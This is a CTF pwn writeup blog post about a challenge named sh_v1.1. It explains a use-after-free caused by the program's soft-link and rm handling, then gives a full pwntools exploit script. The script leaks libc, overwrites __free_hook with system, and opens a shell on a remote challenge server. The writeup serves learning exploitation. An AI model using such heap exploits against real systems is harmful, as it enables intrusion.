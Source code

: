 ```yaml
---
title: 「Pwn」Pwn March Pwn Writeup WP Reproduction
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---
```


## sh_v1.1
The challenge implements some shell functionalities, but I really didn't understand the logic behind them. However, it's just obfuscation, so it doesn't matter.

<!--truncate-->
![image-20230311120537451](https://cdn.n.ova.moe/img/image-20230311120537451.png)

In the `ln src dest` command, the soft link is implemented. Unlike `cp`, it directly copies `pointer_arr` over instead of `malloc` and then `strncpy` copy. When removing the original file with `rm`, the soft link file is not deleted at the same time, which leads to UAF exploitation.



The version is 2.31. Simply leak libc through Unsorted bin and then overwrite `freehook` with `gedit` to gain code execution.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./sh_v1.1'])
sh = remote("121.40.89.206", 34883)
# libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

for i in range(9):
    sh.sendlineafter(b'>>>>', f'touch {i}'.encode())
    sh.sendline(chr(i+ord('a'))*0x20)

sh.sendlineafter(b'>>>>', f'ln 1 9'.encode())  # 9 <--> 1
sh.sendlineafter(b'>>>>', f'ln 2 10'.encode())  # 10 <--> 2

for i in range(8,-1,-1):
    sh.sendlineafter(b'>>>>', f'rm {i}'.encode())

sh.sendlineafter(b'>>>>', f'cat 9'.encode())

libc_base = u64(sh.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) - 96 - 0x10 - 0x1ebb70
__free_hook = libc_base + 0x01eeb28
system_addr = libc_base + 	0x055410
print("libc_base >>", hex(libc_base))

sh.sendlineafter(b'>>>>', f'gedit 10'.encode())
# gdb.attach(sh)
# pause(4)
sh.sendline(p64(__free_hook) + p64(0))

sh.sendlineafter(b'>>>>', f'touch 11'.encode())
sh.sendline(b'/bin/sh')

sh.sendlineafter(b'>>>>', f'touch 12'.encode())
sh.sendline(p64(system_addr))

sh.sendlineafter(b'>>>>', f'rm 11'.encode())
sh.interactive()
```

## kheap
Refer to <Link to='/blog/2023/03/18/_First_Attempt_at_Kernel_Challenges'> First Attempt at Kernel Challenges </Link>

<!-- AI -->
